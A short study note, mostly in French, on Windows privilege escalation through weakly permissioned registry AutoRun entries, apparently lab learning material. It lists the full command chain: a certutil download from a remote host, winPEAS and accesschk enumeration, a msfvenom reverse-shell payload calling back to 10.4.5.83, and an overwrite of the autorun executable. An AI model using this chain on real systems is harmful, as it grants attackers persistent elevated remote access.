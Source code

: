 This is my learning about windows Privilege Escalation
## Weak Registry Autoruns Escalation
Windows peut être configuré pour exécuter des commandes au démarrage, ce processus est appelé AutoRun. Ces exécutions automatiques sont configurées dans le registre. Si vous êtes en mesure d'écrire dans un exécutable AutoRun et de redémarrer le système (ou d'attendre qu'il soit redémarré), vous pouvez être en mesure d'élever vos privilèges.

Pour cela utilisons winpeas pour voir s'il ya des programmes qui ont un droit de autorun
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
.\winPEASany.exe quiet applicationsinfo
```
trouver un program d'autorun  qui es le program.exe dans `C:\Program Files\Autorun Program\program.exe`

Si nous souhaitons effectuer l'énumération manuellement, il suffit d'utiliser la commande ci-dessous :
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Pour vérifier la permission du programme.exe, nous utiliserons accesschk.exe.

```
.\accesschk.exe /accepteula -wvu "Program path"
```
Maintenant pour l'exploiter on doit creer un program avec le meme nom que program.exe avec notre listner
```
msfvenom -p windows/shell_reverse_tcp lhost=10.4.5.83 lport=53 -f exe > shell.exe
```
copy it to program.exe
```
copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```